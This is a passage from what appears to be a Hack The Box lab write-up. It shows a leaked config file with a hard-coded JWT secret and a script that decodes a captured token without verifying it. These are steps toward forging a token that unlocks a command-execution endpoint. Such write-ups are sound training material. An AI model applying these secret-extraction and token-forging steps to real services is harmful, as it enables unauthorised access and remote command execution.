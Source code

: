 - This is just a basic code let's analyze other files. From the import headers I can learn about other file locations.
```python
from app.schemas.user import User
from app.api.v1.api import api_router
from app.core.config import settings
```
- On requesting`/app/core/config.py` I got the jwt secret
```python
from pydantic import AnyHttpUrl, BaseSettings, EmailStr, validator
from typing import List, Optional, Union

from enum import Enum


class Settings(BaseSettings):
    API_V1_STR: str = "/api/v1"
    JWT_SECRET: str = "SuperSecretSigningKey-HTB"
    ALGORITHM: str = "HS256"

    # 60 minutes * 24 hours * 8 days = 8 days
    ACCESS_TOKEN_EXPIRE_MINUTES: int = 60 * 24 * 8

    # BACKEND_CORS_ORIGINS is a JSON-formatted list of origins
    # e.g: '["http://localhost", "http://localhost:4200", "http://localhost:3000", \
    # "http://localhost:8080", "http://local.dockertoolbox.tiangolo.com"]'
    BACKEND_CORS_ORIGINS: List[AnyHttpUrl] = []

    @validator("BACKEND_CORS_ORIGINS", pre=True)
    def assemble_cors_origins(cls, v: Union[str, List[str]]) -> Union[List[str], str]:
        if isinstance(v, str) and not v.startswith("["):
            return [i.strip() for i in v.split(",")]
        elif isinstance(v, (list, str)):
            return v
        raise ValueError(v)

    SQLALCHEMY_DATABASE_URI: Optional[str] = "sqlite:///uhc.db"
    FIRST_SUPERUSER: EmailStr = "root@ippsec.rocks"    

    class Config:
        case_sensitive = True
 

settings = Settings()
```
- **Forging JWT Token**
	- Earlier while trying to access `/execute/<Command>` I got missing `debug` key error
	- I can forge a JWT with debug option included.
	- On working on this I got error because Of time skew between the target(JWT Token) and my system is too high. So I made this program to display the time stamp from the token
```python

import jwt
import time
import datetime

token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNzQxOTM2OTU0LCJpYXQiOjE3NDEyNDU3NTQsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.eL4UaJ5NCf-TEpWdq21t-kEbO-7YJTmmLLkooJussuE"

decoded_payload = jwt.decode(token, options={"verify_signature": False})
print(decoded_payload)
iat_timestamp = decoded_payload['iat']

current_time_timestamp = int(time.time())
```